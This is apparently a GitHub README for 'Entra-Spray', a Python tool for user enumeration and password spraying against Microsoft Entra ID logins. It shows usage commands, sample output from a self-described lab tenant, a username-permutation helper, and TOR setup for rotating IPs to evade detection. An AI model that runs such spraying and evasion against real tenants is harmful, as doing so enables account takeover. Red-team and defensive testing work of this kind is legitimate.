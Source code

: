 # Entra-Spray
Python tool that allows you to perform Password Spray and User Enumeration tests against Entra ID, with Microsoft login service (login.microsoftonline.com).

The tool recreates the real Microsoft login flow to check:
1. Whether a user exists in Entra ID
2. Whether the password is correct
3. Whether there is a reference to a Federated server

## Main capabilities:
-  Argument (-Check) for checking if user identity exsit in Tenant (after muliple requests it might be False Positive)
-  Argument (-ProxyTor) for route all traffic vit TOR (renew ip after every 7 min..) - This feature comes to solve the problem of False Positive
   Settings adjustment required before using this argument
- Argument (-firstname) and (-lastname) and (-tenantname) for make combination from employee's name until finding the vaild user

### Install:

```bash
pip install httpx
pip install httpx[http2]
pip install httpx[socks]
pip install stem
```

```python
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file -pass password | path-to-passwords-file  [-check] [-ProxyTor] # authentication to Microsoft
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file  [-check] [-ProxyTor] # Just for user validation
Entra-Spray.py [-h] -firstname Shaked -lastname Wiessman -tenantname Shak.com [-ProxyTor] # for Finding the vaild combination
```

Using UserName-Combain.py:
```python
UserName-Combain.py -input names.txt -output username.txt -tenantname @shak.com -style firstl | first | last | firstlast | first.last | last.first | lastfirst | firstL | lastF | firstL2 | firstL3 | lastF2 | lastF3 | fl | lf | l.first | f.last | first.l | last.f | all 
```

### Usage:

the tenant and the upns is a part of a LAB enviroment in Entra ID :]

#### Checking If User Exist:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -check

[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.comis exists
[✗] Username: dan@entraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists


----------------------------
 Valid users and successful authentications written to valid-users.txt
```

Checking If User Exist with TOR routing (-proxytor flag):
```python
python3 Entra-Spray.py -user list-of-usernames.txt -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}
[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.com is exists
[✗] Username: dan@mentraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

Preforming Password Spray Attack:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456'

[-] Failed to authenticate with shoshi@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[-] Failed to authenticate with normuser@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[-] Failed to authenticate with shakedwiessman@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

Preforming Password Spray Attack with '-check' flag:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check

[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

Preforming Password Spray Attack with '-check' flag and with TOR routing:
The script will check if:
- The user is required to have MFA but has not yet set it up
- The user is required to have MFA
- The user is required to change their password
  
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Bb123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"110.22.66.190"}
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[✓] User shakedwiessman@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Bb123456, MFA required

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Cc123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.172.188.113"}
[✓] User shoshi@entraspraytenant.onmicrosoft.com is exist, and Password needs updating: Cc123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```
## Usage with TOR:

### Install:

```bash
sudo apt update
sudo apt install torsocks -y
sudo apt install libtorsocks0 -y
```


1) Start TOR:

  ```bash
  sudo systemctl start tor@default
  ```

2) open /etc/tor/torrc file and add:

  ```bash
  ControlPort 9051
  CookieAuthentication 1
  ```

3) Create symlink:

  ```bash
  sudo ln -s /usr/lib/x86_64-linux-gnu/torsocks/libtorsocks.so /usr/lib/x86_64-linux-gnu/libtorsocks.so
  ```

4) Restart TOR:

  ```bash
  sudo systemctl restart tor@default
  ```

5) Check if TOR is working:
  ```bash
  netstat -tulpen | grep 9050
  torsocks curl https://api.ipify.org
  torsocks curl https://check.torproject.org | grep -i "Congratulations"
  ```

